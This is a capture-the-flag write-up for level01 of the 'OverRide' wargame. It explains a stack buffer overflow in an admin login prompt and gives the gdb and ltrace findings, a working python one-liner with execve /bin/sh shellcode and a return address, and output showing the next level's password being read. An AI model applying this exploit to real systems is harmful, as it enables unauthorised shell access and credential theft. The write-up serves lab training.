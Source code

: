The program displays a prompt before asking the user for its username. The input is then checked and well, bad luck, my input is not valid. So let's look at the assembly code.

There are three functions: main(), verify_user_name() and verify_user_pass(). Please check the [source code](source.c) for more details. If we look closely, we can see that the credentials appear in hard copy in the code. Thus the expected username is "dat_wil" and the password is "admin". But we can also see that the code is broken: when filling in the proper password, the program still displays an error message. Anyway, this is not the way to pass this level.

Looking at the reconstructed source code, we see that the second fgets() writes up to 100 bytes in a local variable that can only hold 64 bytes. We can therefore carry out a buffer overflow attack and overwrite the address pointed to by EIP.

We find with the help of gdb that the offset of EIP is 80 bytes. Moreover, we find the address of the local variable (0xffffd6cc) using the ltrace command:
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10316, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***")                                                = 39
printf("Enter Username: ")                                                              = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)                                                     = 0x0804a040
puts("verifying username....\n"verifying username....)                                  = 24
puts("Enter Password: ")                                                                = 17
fgets("admin\n", 100, 0xf7fcfac0)                                                       = 0xffffd6cc
puts("nope, incorrect password...\n")                                                   = 29
+++ exited (status 1) +++
```

Now we just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [This one](https://shell-storm.org/shellcode/files/shellcode-841.php) corresponds to what we want to do. It is 21 bytes long so we will need to complete our input with 59 bytes of padding in order to reach EIP. We will then pass the address of the local variable so that our shellcode becomes the next instruction in the program. The address must be written in the little endian convention in order to be readable by the computer. 

python -c 'print "dat_wil\n" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + 59 * "A" + "\xcc\xd6\xff\xff"' > /tmp/exp

In order to keep the shell open, we add a dash ('-') at the end of the cat command, in order to keep reading on the standard input until it meets an EOF ('^D') character.

```
level01@OverRide:~$ cat /tmp/exp - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02    
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
We can now reach the next level with the command `su level02` and fill in the flag found as a password.